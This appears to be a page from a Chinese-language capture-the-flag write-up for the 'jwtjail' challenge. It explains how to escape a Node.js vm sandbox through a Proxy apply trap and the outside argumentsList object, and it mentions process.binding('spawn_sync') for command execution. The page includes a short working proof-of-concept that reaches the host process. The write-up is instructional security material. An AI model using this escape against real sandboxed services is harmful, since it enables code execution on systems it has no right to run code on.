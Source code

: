 ``` js
        secretOrPrivateKey = unserialize(secretOrPrivateKey);
        res.json({
            success: true,
            data: jwt.verify(token, secretOrPrivateKey)
        });
    }
    catch {
        res.json({
            success: false,
            data: "Verification failed"
        });
    }
});

app.listen(PORT, () => console.log(`web/jwtjail listening on port ${PORT}`));
```

靠著 vm 把你丟進去的 data 放在另一個 context，然後呼叫 jwt lib，因此目的就是在 jwt lib 處理的過程中找到可以 escape 的地方。

而解法是我們可以幫一個 function 加上 proxy，如果呼叫到 function，就會先呼叫到 proxy 的 apply

``` js
var p = new Proxy(_ => _, {
  apply(target, thisArg, argumentsList) {
    console.log('apply')
  }
})
p() // apply
```

而這個 apply 的第三個參數 `argumentsList` 是來自外界的 object，就可以靠著這個參數來逃出 VM。

除此之外，雖然 `process.mainModule` 被刪掉了，但可以用 `process.binding("spawn_sync")` 來達成執行程式碼。

一個簡單的 PoC 像這樣：

``` js
"use strict";
const vm = require("vm");

const ctx = { codeGeneration: { strings: false, wasm: false }};
const unserialize = (data) => new vm.Script(`"use strict"; (${data})`)
    .runInContext(
        vm.createContext(Object.create({console}), ctx),
        { timeout: 250 }
    );

var data = `{
    key: {
        toString: new Proxy(_ => _, {
            apply(a, b, c) {
                console.log(c.constructor.constructor("return this")().process.pid)
            }
        })
    }
}`

try {
    data = unserialize(data);
    console.log(data['key'].toString())
} catch(err) {
    console.log(err)
}
```
